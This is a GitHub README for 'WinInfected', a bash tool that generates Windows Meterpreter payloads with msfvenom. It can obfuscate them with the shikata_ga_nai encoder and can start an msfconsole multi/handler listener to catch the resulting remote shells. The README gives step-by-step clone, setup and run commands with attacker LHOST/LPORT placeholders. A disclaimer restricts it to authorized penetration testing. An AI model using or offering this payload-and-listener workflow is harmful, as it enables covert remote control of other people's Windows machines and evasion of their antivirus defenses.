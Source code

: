 # WinInfected v1.2

WinInfected is a bash script that automates the generation of a Windows Meterpreter payload using `msfvenom` from the Metasploit Framework. The script supports payload obfuscation via the `x86/shikata_ga_nai` encoder (with 5 iterations) when the `--obfuscate` option is specified. It also offers convenient options for checking and installing dependencies, updating the required packages, and launching `msfconsole` with a pre-configured multi/handler.

## Features

- **Payload Generation:** Create a Windows Meterpreter payload using `msfvenom`.
- **Optional Obfuscation:** Use the `x86/shikata_ga_nai` encoder with 5 iterations for payload obfuscation.
- **Dependency Management:** Check for and install missing dependencies (Metasploit Framework).
- **Script Update:** Update dependencies with a single command.
- **Automated Listener:** Optionally launch `msfconsole` with a configured multi/handler to listen for incoming connections.
- **Current Directory Output:** The generated payload is saved in the current working directory with a timestamped filename.

## Usage

## Script Options

```bash
WinInfected v1.2
Usage: sudo wininfected [LHOST] [LPORT] [--obfuscate]
Options:
  --dependencies   Check and install missing dependencies.
  --update         Update script and dependencies.
  --obfuscate      Enable payload obfuscation using x86/shikata_ga_nai encoder.
  -h, --help       Display this help message.
  More information: https://github.com/byfranke/wininfected
```

## Steps to Run:

```bash
git clone https://github.com/byfranke/wininfected.git
```

```bash
cd wininfected
```
```bash
chmod +x setup.sh
```

```bash
sudo ./setup.sh
```

Install Dependencies (if needed):
```bash
sudo wininfected --dependencies
```

Generate a Payload:

Without Obfuscation:
```bash
sudo wininfected <LHOST> <LPORT>
```

With Obfuscation:
```bash
sudo wininfected <LHOST> <LPORT> --obfuscate
```

Replace `<LHOST>` with your local host IP and `<LPORT>` with your desired port number.

Launch Listener (Optional): After the payload is generated, the script will prompt:

Do you want to start msfconsole to listen for connections? (y/n):
Enter `y` to launch `msfconsole` with a pre-configured multi/handler, or `n` to exit.

## Dependencies

- Metasploit Framework: Provides both `msfvenom` and `msfconsole`.

Installation (on Debian-based systems):

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

Installation (on Arch-based systems):

```bash
sudo sudo pacman -Syu && sudo sudo pacman -S metasploit
```

**Notes**
- The generated payload is stored in the current working directory with a filename based on the current timestamp.
- Ensure you run the script with the appropriate permissions to install packages and execute commands.
- This tool is designed for educational purposes and authorized penetration testing only.

## Disclaimer
- **WARNING:** This script is intended for legal, ethical, and authorized penetration testing only. The author is not responsible for any misuse or damage caused by this tool.
